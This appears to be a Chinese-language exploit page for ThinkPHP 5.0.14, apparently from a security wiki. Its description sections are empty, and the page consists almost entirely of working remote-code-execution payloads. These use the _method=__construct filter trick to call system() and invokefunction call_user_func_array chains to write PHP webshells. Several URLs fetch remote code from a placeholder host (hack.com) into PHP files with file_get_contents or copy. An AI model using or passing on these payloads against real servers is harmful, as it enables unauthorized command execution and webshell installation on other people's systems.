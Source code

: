```yaml
---
title: "Thinkphp 5.0.14"
id: zhfly3151
---
```


# Thinkphp 5.0.14

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、常规命令

```
?s=index/think\app/invokefunction&function=&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php.jpg&vars[1][]=%3C?php%20phpinfo();?3E 
```

### 2、eval（''）和assert（''）被拦截，命令函数被禁止

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo(); 
```

```
http://www.xxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_GET[1])&1=call_user_func_array("file_put_contents",array("3.php",file_get_contents("https://www.hack.com/xxx.js"))); 
```

### 3、基于php7.2环境下

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=1.txt&vars[1][1]=1 
```

```
http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index111.php',file_get_contents('https://www.hack.com/xxx.js'));?>
写进去发现转义了尖括号 
```

### 4、通过copy函数

```
 http://www.xxxx.cn/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=copy&vars[1][0]= https://www.hack.com/xxx.js&vars[1][1]=112233.php 
```